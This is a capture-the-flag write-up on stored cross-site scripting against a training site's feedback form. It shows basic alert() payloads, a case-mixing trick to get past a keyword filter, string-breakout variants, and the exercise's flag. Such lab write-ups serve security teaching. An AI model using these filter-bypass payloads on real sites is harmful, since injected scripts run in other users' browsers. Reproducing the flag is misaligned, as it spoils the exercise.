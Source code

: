 # Stored XSS
- a type of security vulnerability where an attacker can inject malicious scripts into content that is then served to other users
- the malicious script is permanently stored on the target server (e.g., in a database, comment section, or forum post)
- when a user visits the affected web page, the malicious script is executed in their browser
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

<b>keywords</b>: XSS basic<br>
<b>attacked site</b>: http://borntosec.42/?page=feedback

## Exploit
On the feedback page, there is a form that accepts 'name' and 'message'. Since the input length for 'name' is limited, we can try injecting JS code into it:
``` JS
<script>alert('XSS')</script>
```
If this does not work, the input might be sanitized for keywords. In that case, we can try to bypass the filter by mixing uppercase and lowercase letters in the word 'script':
``` JS
<sCRiPT>alert('XSS')</SCrIPt>
```
Alternatively, if the input is reflected inside a JS string, we can attempt to exit the string, execute the code, and then reconstruct the JS code:
``` JS
'-alert(1)-'
';-alert(1)//
\';alert(1)//
```
Submitting the first snippet successfully opens a popup window and displays the flag:
```
The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

## Flag
0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
